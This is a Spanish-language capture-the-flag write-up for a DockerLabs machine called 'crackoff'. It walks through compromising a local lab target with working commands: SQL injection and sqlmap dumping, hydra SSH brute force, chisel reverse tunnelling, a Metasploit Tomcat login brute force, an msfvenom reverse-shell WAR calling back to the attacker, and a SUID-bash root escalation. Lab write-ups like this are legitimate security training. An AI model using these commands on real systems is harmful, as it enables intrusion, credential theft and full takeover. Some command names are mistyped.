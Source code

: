 nmap: 22,80

![image](https://github.com/user-attachments/assets/c7952ccc-1a71-4e0f-8171-57b0b65eff9f)

---

entramos a la pagina principal

![image](https://github.com/user-attachments/assets/5b370534-bdd8-4936-8f3f-2f41dd4890cf)


En el login de la pagina

![image](https://github.com/user-attachments/assets/08eeadc6-b8c7-451d-8990-0d9e60ec74bf)


probamos un sql básico " 'or 1=1-- -" y nos da acceso al panel de control, o sea es vulnerable a un RCE o LFI.  y buscando que mas hacer par obtener algún usuario o algo, encontré que podemos ver la base de datos por esto:

![image](https://github.com/user-attachments/assets/f7d1bf36-5e3a-44ae-b6b6-610cded1346a)


probamos con la base de datos

    sqlpmap --url http://172.17.0.2/login.php --forms --batch --dbs

![image](https://github.com/user-attachments/assets/5135f540-3545-4ba5-9d04-2dd87713d821)


ahora mas especifico:

    qlmap --url http://172.17.0.2/login.php --forms --batch --dbs --time-sec=1 --dump

nos da después de un rato una tabla con usuarios y contraseñas posibles:

![image](https://github.com/user-attachments/assets/763169fd-80d6-447c-be57-2bdafc6f3932)

creamos en nuestra terminal un txt de pass y user. 
luego un hydra para que pruebe combinaciones: 

    hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV

nos dio: 
![[contraseña.png]]

entramos por el ssh
![[dockerlabs/dificil/crackoff/ssh.png]]

y vemos que hay tres usuarios: Alice, Mario y rosa que somos nosotros.

escalamos: encontré esta nota  
![[dockerlabs/dificil/crackoff/nota.png]]
![[nota2.png]]
el contenido de la nota: flowerpower
probé si era la contraseña pero no es
buscando probé con el comando 

     netstat -an

y me dio esto que me llamo la atención
![[8080.png]]

descargamos chisel: https://github.com/jpillora/chisel/releases/tag/v1.10.0

gunzip chisel
y lo pasamos a la maquina victima con wget mientras tenemos el servidor abierto en nuestra terminal. 

    wget http://172.17.0.2/chisel

![[chisel.png]]

iniciamos en nuestra terminal un servidor: 

    ./chisel server -p 1234 --reverse
y en la maquina víctima: 

    ./chisel client 172.17.0.1:1234 R:443:127.0.0.1:8080

![[dockerlabs/dificil/crackoff/conexion1.png]]

entonces entramos al puerto 8080 por el 443:
http://127.0.0.1:443/
![[tomcat.png]]

ahora empezamos a escalar hacia los otros usuarios a través de "manager app" de la pagina tomcat.

como ninguna credencial que buscamos en: https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat

sirvió mas abajo en la misma pagina nos muestra que busquemos por metasploit:

hacemos una fuerza bruta  a través de metasploit con los siguientes pasos:

     - use auxiliary/scanner/http/tomcat_mgr_login
     - set RHOSTS 127.0.0.1
     - set RPORT 8080
     - set USER_FILE /home/skopjee/user.txt
     - set PASS_FILE /home/skopjee/pass.txt
     - set TARGETURI /manager/html
     - run
y nos dio

    [+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra


ingresamos a mager app
![[panel2.png]]

creamos un archivo malicioso: 

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o rev.war

lo subimos en el apartado de "WAR"
![[dockerlabs/dificil/crackoff/war.png]]

cargamos y a parecerá en la parte principal de la pagina como "rev"
![[rev.png]]

ahora colocamos el terminal en escucha y nos conectamos
![[dockerlabs/dificil/crackoff/conexion2.png]]

luego de conectarme buscamos como llegar a root:
![[catalina.png]]

escalamos privilegios con sh:

    echo 'chmod u+s /bin/bash' >> /opt/tomcat/bin/catalina.sh

ahora lo iniciamos

     sudo -u root /opt/tomcat/bin/catalina.sh start

si vemos los permisos bash veremos que cambiaron:

 ![[dockerlabs/dificil/crackoff/root.png]]

y al hace el bash -p seremos root!
